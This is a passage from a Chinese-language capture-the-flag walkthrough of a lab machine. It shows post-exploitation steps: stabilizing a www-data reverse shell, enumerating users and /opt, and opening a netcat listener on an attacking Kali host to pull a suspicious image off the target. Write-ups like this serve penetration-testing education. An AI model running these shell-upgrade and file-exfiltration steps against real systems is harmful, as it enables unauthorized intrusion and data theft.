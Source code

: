 ### 3.4 Shell 稳定化

获取到的Shell通常是非交互式的，需要进行稳定化处理以便更好地操作。

```bash
script /dev/null -c bash
# 按 Ctrl+Z 挂起
stty raw -echo; fg
# 按 Enter
reset xterm
export TERM=xterm
export SHELL=/bin/bash
# 根据需要调整行列数
stty rows 59 cols 236
```

现在我们有了一个稳定的 `www-data` 用户的Shell。

## 4. 权限提升

### 4.1 本地枚举 (www-data)

进行基本的系统枚举。

```bash
www-data@7r1umph:/var/www/html/tmp$ ls -la /home
total 12
drwxr-xr-x  3 root    root    4096 Apr 11 22:27 .
drwxr-xr-x 18 root    root    4096 Mar 18 20:37 ..
drwx------  3 welcome welcome 4096 Apr 12 01:29 welcome # 发现用户 welcome

www-data@7r1umph:/home$ sudo -l
sudo: unable to resolve host 7r1umph: Name or service not known
[sudo] password for www-data: # 需要密码，无法使用sudo

www-data@7r1umph:/home$ cd /opt/
www-data@7r1umph:/opt$ ls -la
total 56
drwxr-xr-x  2 root root  4096 Apr 12 01:23 .
drwxr-xr-x 18 root root  4096 Mar 18 20:37 ..
-rw-r--r--  1 root root 16968 Apr 12 00:21 guess       # 可疑文件
-rw-r--r--  1 root root 27871 Apr 12 00:18 yeyeye.png  # 可疑图片文件
```

### 4.2 提权至 welcome 用户

发现 `/opt` 目录下有一个图片文件 `yeyeye.png`。将其传回Kali进行分析。

**在Kali上准备接收:**

```bash
nc -lvnp 4444 > yeyeye.png
```
